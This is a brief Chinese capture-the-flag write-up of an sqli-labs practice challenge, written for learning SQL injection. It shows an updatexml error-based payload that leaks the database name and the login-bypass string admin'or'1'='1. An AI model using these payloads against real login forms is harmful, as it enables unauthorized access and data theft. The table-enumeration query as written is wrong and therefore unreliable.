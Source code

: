 根据题目提示：post error injectin single(单引号）

输入admin'

有报错提示。

payload:

admin'and+updatexml(1,concat(0x7e,database(),0x7e),1)--+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入深度剖析/sqli_labs通关/basic_challenges（基础挑战）/images/1B3FA4DDCFD044CD8909017AD6561290clipboard.png)



接下来就是常规暴库语句：

select table_name from information_schema.schemata limit 0,1

但是updatexml只能爆出32个字节



这个题还可以试试万能密码：

payload:admin'or'1'='1



报错注入连接：

https://v0w.top/2018/08/03/MySQL%20%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5/#updatexml